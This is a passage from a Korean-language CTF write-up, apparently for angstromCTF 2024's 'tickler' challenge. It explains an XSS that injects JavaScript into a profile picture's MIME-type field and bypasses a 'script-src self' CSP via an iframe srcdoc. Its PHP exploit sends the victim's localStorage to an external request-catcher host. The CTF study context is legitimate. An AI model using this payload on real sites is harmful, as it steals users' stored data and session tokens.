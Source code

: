 ```typescript
            req,
            res,
            path: route.slice('/api/'.length),
            createContext: ({ req }) => {
                const header = req.headers.login
                const clean = Array.isArray(header) ? header[0] : header ?? ''
                const [user, password] = clean.split(':') ?? []
                return { user, password }
            },
        })
    } else {
        if (route === '/') route = '/index.html'
        else if (!route.includes('.')) route += '.html'
        send(res, path.join(import.meta.dirname, 'public', route))
    }
})

server.listen(3000, () => {
    console.log('running on :3000')
})

export type Router = typeof router
```       

`/picture` 엔드포인트에서는 계정에 따라 프로필을 `data:${type};base64,${data}"` 형태로 보여준다.     

`MIME TYPE`이 위치해야할 자리에 JS 코드를 넣고, 이전에 언급한 `error.innerHTML`에 `<iframe srcdoc="<script src='profile path'></script>"></iframe>` 스크립트를 삽입하면 XSS를 트리거 할 수 있게 된다. 
               
그 이유는 CSP 정책이 `Content-Security-Policy: script-src 'self'`로 설정되어있어 JSONP, 유저가 업로드한 파일 등을 활용하면 스크립트를 실행시킬 수 있기 떄문이다.       
      
### Exploit Code     

```php
<?php
    header('content-type: window.location="https://tjchkab.request.dreamhack.games/?d="+btoa(JSON.stringify(window.localStorage))//');
    echo "test";
?>
```     
      
<img src="/assets/images/ctf/2024/angstrom/tickler/profile.jpg" width="700px">      
               
